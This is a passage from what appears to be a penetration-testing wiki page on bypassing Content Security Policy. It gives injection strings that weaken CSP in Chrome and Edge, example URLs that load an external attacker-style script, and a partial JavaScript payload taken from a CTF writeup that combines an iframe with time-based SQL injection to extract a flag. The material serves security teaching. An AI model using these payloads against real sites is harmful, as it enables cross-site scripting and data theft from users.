 #### Chrome

If a **parameter** sent by you is being **pasted inside** the **declaration** of the **policy,** then you could **alter** the **policy** in some way that makes **it useless**. You could **allow script 'unsafe-inline'** with any of these bypasses:

```bash
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```

Because this directive will **overwrite existing script-src directives**.\
You can find an example here: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E](http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)

#### Edge

In Edge is much simpler. If you can add in the CSP just this: **`;_`** **Edge** would **drop** the entire **policy**.\
Example: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert(1)%3C/script%3E](http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert\(1\)%3C/script%3E)

### img-src \*; via XSS (iframe) - Time attack

Notice the lack of the directive `'unsafe-inline'`\
This time you can make the victim **load** a page in **your control** via **XSS** with a `<iframe`. This time you are going to make the victim access the page from where you want to extract information (**CSRF**). You cannot access the content of the page, but if somehow you can **control the time the page needs to load** you can extract the information you need.

This time a **flag** is going to be extracted, whenever a **char is correctly guessed** via SQLi the **response** takes **more time** due to the sleep function. Then, you will be able to extract the flag:

```html
<!--code from https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle -->
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
	x = escape(x.replace(/_/g, '\\_'));
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`; 
}

function gen2(x) {
	x = escape(x);
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) { 
	let h = performance.now();
	f.location = (end ? gen2(word) : gen(word));
	await new Promise(r => {
		g.onload = r; 
	});
	let diff = performance.now() - h;
	return diff > 300;
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

```